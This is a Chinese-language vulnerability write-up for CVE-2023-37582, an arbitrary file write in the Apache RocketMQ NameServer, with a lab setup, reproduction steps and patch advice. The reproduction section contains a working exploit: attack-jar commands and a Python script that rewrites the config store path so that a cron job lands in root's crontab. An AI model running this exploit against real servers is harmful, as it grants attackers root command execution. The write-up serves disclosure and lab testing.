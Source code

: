# Apache RocketMQ NameServer 任意文件写入漏洞 CVE-2023-37582

## 漏洞描述

Apache RocketMQ 是一个分布式消息和流处理平台，具有低延迟、高性能和可靠性、万亿级容量和灵活的可扩展性。

在 RocketMQ 版本 5.1.1 及以下版本中，NameServer 组件存在一个任意文件写入漏洞。该漏洞存在于 RocketMQ 的 NameServer 组件的配置更新功能中。通过向 NameServer 发送 `UPDATE_NAMESRV_CONFIG` 命令，攻击者可以修改 `configStorePath` 配置项及其内容，从而导致任意文件写入。

该漏洞源于对 [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246) 的不完全修复。在处理 CVE-2023-33246 时，官方团队建立了一个不能被修改的配置项黑名单。然而，补丁错误地将黑名单指定为 `configStorePathName`，而应该是 `configStorePath`，导致了这一结果。

参考链接：

- https://github.com/apache/rocketmq/pull/6843
- https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://github.com/Malayke/CVE-2023-37582_EXPLOIT

## 漏洞影响

```
RocketMQ < 4.9.7
RocketMQ < 5.1.2
```

## 网络测绘

```
title="RocketMQ"
```

## 环境搭建

Vulhub 执行如下命令启动一个 RocketMQ NameServer 5.1.0：

```shell
docker compose up -d
```

环境启动后，RocketMQ 的 NameServer 将会监听在 9876 端口。

## 漏洞复现

使用这个 Vulhub 项目 [rocketmq-attack](https://github.com/vulhub/rocketmq-attack) 来复现漏洞并写入任意文件：

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --file "/tmp/awesome_poc" --data "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

执行完成后，可以验证文件是否写入成功：

```shell
cat /tmp/awesome_poc
```

![](images/Apache%20RocketMQ%20NameServer%20任意文件写入漏洞%20CVE-2023-37582/image-20250210115056589.png)

定时任务：

```python
import socket
import binascii
client = socket.socket()
# you ip port(9876)
client.connect((target_ip,target_port))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":435}'.encode('utf-8')
body='configStorePath=/var/spool/cron/crontabs/root\nbrokerConfigPath=/var/spool/cron/crontabs/root\nbindAddress=0.0.0.0\\n*/1 * * * * touch /tmp/success'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
print(head1)
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
print(head2)
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

## 漏洞修复

目前官方已发布安全版本，建议受影响用户升级至：

- RocketMQ 5.x >= 5.1.2
- RocketMQ 4.x >= 4.9.7

官方补丁下载地址： https://rocketmq.apache.org/download/ ，同时建议将 NameServer、Broker 等组件部署在内网，并增加权限认证。
